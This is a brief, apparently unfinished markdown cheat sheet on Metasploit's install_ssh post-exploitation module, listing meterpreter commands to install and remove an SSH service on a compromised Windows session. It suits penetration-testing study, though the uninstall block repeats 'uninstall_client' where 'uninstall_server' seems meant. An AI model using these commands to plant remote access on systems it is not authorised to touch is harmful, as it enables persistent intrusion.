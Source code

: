 # Metasploit

TODO: Fill this info

## 01 - Install SSH Service

```
msf > use post/windows/manage/install_ssh

options

set session <session_ID>

run
```

```
meterpreter > run post/windows/manage/install_ssh
```

## 02 - Uninstall SSH Service

```
set session <session_ID>

set install_client false

set install_server false

set uninstall_client true

set uninstall_client true

run
```

```
meterpreter > run post/windows/manage/install_ssh install_client=false install_server=false uninstall_client=true uninstall_server=true
```

---
## References

- [Rapid7: Metasploit Framework - Install SSH Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/install_ssh.md)
